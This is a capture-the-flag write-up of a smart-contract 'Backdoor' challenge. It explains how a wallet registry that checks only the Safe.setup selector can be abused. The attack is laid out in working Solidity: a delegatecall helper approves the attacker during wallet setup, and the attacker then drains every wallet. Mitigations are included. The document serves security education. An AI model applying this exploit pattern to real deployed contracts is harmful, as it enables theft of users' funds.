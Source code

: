 # Backdoor Challenge - Exploit Documentation

## Overview

This document explains the backdoor vulnerability in the WalletRegistry contract and how to exploit it to drain all 40 DVT tokens in a single transaction.

## The Vulnerability

The WalletRegistry contract has a critical flaw in its validation logic. While it validates that wallets are initialized with the correct `Safe.setup` function selector, it **does not validate the parameters** passed to the setup function.

### Key Vulnerable Code

```solidity
// WalletRegistry.sol - Line 85-86
if (bytes4(initializer[:4]) != Safe.setup.selector) {
    revert InvalidInitialization();
}
```

The registry only checks that the first 4 bytes match `Safe.setup.selector` but ignores the actual parameters, allowing malicious initialization.

## The Exploit Strategy

### 1. Understanding Safe.setup Parameters

The `Safe.setup` function accepts these parameters:
- `_owners`: Array of wallet owners
- `_threshold`: Number of signatures required
- `to`: Address to call during setup (for additional initialization)
- `data`: Calldata for the additional call
- `fallbackHandler`: Fallback handler address
- `paymentToken`: Token for payment
- `payment`: Payment amount
- `paymentReceiver`: Payment recipient

### 2. The Critical Insight: setupModules()

During `Safe.setup`, the function calls `setupModules(to, data)` which:
1. Validates that `to` is a contract
2. Makes a **DelegateCall** to `to` with the provided `data`
3. Executes in the Safe's storage context

### 3. The DelegateCall Problem

Direct token approval via DelegateCall doesn't work because:
- DelegateCall executes target contract code in caller's context
- Token contracts expect to modify their own storage
- The approval call fails silently or behaves unexpectedly

### 4. The Solution: Helper Contract

Create an intermediary contract that makes a regular call to the token:

```solidity
contract ApprovalHelper {
    function approve(address token, address spender, uint256 amount) external {
        IERC20(token).approve(spender, amount);
    }
}
```

## The Complete Attack

### Step 1: Deploy Helper Contract
```solidity
ApprovalHelper helper = new ApprovalHelper();
```

### Step 2: Create Malicious Setup Data
For each beneficiary user:
```solidity
bytes memory approveData = abi.encodeWithSelector(
    helper.approve.selector,
    address(token),
    address(player),
    type(uint256).max
);

bytes memory initData = abi.encodeWithSelector(
    Safe.setup.selector,
    [users[i]], // beneficiary as owner (passes registry validation)
    1,          // threshold = 1 (passes registry validation)
    address(helper), // call our helper contract
    approveData,     // approve player for token spending
    address(0),      // no fallback handler (passes registry validation)
    address(0),      // no payment token
    0,               // no payment
    address(0)       // no payment receiver
);
```

### Step 3: Create Backdoored Wallets
```solidity
SafeProxy safeProxy = walletFactory.createProxyWithCallback(
    address(singletonCopy),
    initData,
    123, // unique salt
    walletRegistry
);
```

### Step 4: Drain Each Wallet
```solidity
token.transferFrom(
    address(safeProxy),
    address(recovery),
    token.balanceOf(address(safeProxy))
);
```

## Attack Flow Analysis

### What Happens During Wallet Creation:

1. **SafeProxyFactory** creates a new SafeProxy
2. **SafeProxy** delegates `Safe.setup` call to Safe singleton
3. **Safe.setup** executes with our malicious parameters:
   - Sets beneficiary as owner ✓ (passes registry check)
   - Sets threshold to 1 ✓ (passes registry check)
   - Calls `setupModules(helper, approveData)`
4. **setupModules** makes DelegateCall to our ApprovalHelper
5. **ApprovalHelper.approve** executes in Safe's context and makes regular call to token
6. **Token approval** is set: Safe approves player for unlimited spending
7. **WalletRegistry.proxyCreated** validates the wallet:
   - ✓ Correct setup selector
   - ✓ Beneficiary as owner
   - ✓ Threshold = 1
   - ✓ No fallback manager
8. **Registry sends 10 DVT** to the Safe wallet
9. **Player drains wallet** using the pre-approved allowance

### Why the Registry's Validations Fail:

- **Function Selector Check**: ✓ Passes (we use correct `Safe.setup.selector`)
- **Owner Check**: ✓ Passes (beneficiary is set as owner)
- **Threshold Check**: ✓ Passes (threshold is 1)
- **Fallback Manager Check**: ✓ Passes (no fallback manager set)
- **Missing Check**: ❌ No validation of `to` and `data` parameters!

## Key Technical Details

### Memory Layout in Assembly Call
When SafeProxyFactory initializes the proxy:
```solidity
assembly {
    if eq(call(gas(), proxy, 0, add(initializer, 0x20), mload(initializer), 0, 0), 0) {
        revert(0, 0)
    }
}
```
- `initializer` contains our malicious `Safe.setup` calldata
- The call executes our backdoor during wallet creation

### DelegateCall vs Regular Call
- **DelegateCall**: Executes target code in caller's storage context
- **Regular Call**: Executes target code in target's storage context
- **Our Helper**: Uses DelegateCall to execute in Safe's context, then makes regular call to token

## Impact

- **All 40 DVT tokens stolen** from the registry
- **Single transaction attack** (satisfies challenge constraint)
- **Bypasses all registry security checks** while appearing legitimate
- **Demonstrates critical validation gap** in smart contract security

## Mitigation

To fix this vulnerability, the WalletRegistry should:

1. **Validate setup parameters**: Check that `to` is either `address(0)` or a whitelisted address
2. **Restrict data parameter**: Ensure `data` is empty or contains only approved function calls
3. **Add parameter hash validation**: Store and validate expected parameter hashes
4. **Implement setup template**: Provide pre-approved setup configurations

## Lessons Learned

1. **Partial validation is dangerous**: Checking only function selectors without parameters creates exploitable gaps
2. **DelegateCall complexity**: Understanding execution contexts is crucial for security
3. **Initialization attacks**: Setup/constructor phases are critical attack vectors
4. **Registry pattern risks**: Callback-based validation requires comprehensive parameter checking

This exploit demonstrates why thorough parameter validation is essential in smart contract security, especially when dealing with complex initialization patterns and callback mechanisms.

